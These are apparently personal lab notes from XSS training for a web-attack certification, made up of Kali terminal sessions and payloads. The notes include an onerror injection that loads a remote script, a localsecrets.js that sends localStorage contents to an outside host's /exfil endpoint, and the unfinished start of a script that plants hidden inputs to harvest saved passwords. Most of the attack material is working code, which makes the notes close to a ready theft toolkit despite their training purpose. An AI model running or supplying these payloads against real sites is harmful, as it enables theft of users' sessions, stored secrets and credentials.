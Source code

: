 ![[Pasted image 20250106102205.png]]
- was able to get a hit on my `python3` serverso it did work - now we wait for a potential cookie and can try other `XSS` methods to steal local secrets
![[Pasted image 20250106102232.png]]
- a couple minutes later got a `304` error - possibly executing
![[Pasted image 20250106102354.png]]
- testing `innerHTML`
payload to bypass `innerHTML` - `onerror` method
```bash
<img src="nonexistent.jpg" onerror="this.onerror=null;document.write('<script src=\'http://192.168.49.61:80/xss_stealing_cookies.js\'><\/script>');" />
```
- looks like that might have crashed the web page, not the way - had to reset 

------
###### Payload 3 - `STEALING LOCAL SECRETS`
```bash
┌──(root💀gobots)-[02Aug2024 13:15:17]-[/home/kali/SUT/OSWA/xss]
└─# vim localsecrets.js

┌──(root💀gobots)-[02Aug2024 13:15:49]-[/home/kali/SUT/OSWA/xss]
└─# cat localsecrets.js  
let data = JSON.stringify(localStorage)

let encodedData = encodeURIComponent(data)

fetch("http://192.168.61.62/exfil?data=" + encodedData)

┌──(root💀gobots)-[02Aug2024 13:15:57]-[/home/kali/SUT/OSWA/xss]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
![[Pasted image 20250106103519.png]]
Payload to test against own kali machine 1st
```bash
<script src="http://192.168.49.61:80/localsecrets.js"></script>
```
- nothing came back with this
![[Pasted image 20250106103647.png]]


-----

###### Payload 5 - `STEALING SAVED PASSWORDS`
- if this doesnt work could try with `127.0.0.1`
```bASH
┌──(root💀gobots)-[05Aug2024 20:48:35]-[/home/kali/SUT/OSWA/xss]
└─# vim savedpasswords.js

┌──(root💀gobots)-[05Aug2024 20:48:46]-[/home/kali/SUT/OSWA/xss]
└─# cat savedpasswords.js 
let body = document.getElementsByTagName("body")[0];

var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
//u.style.opacity = "0";

var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
//p.style.opacity = "0";

```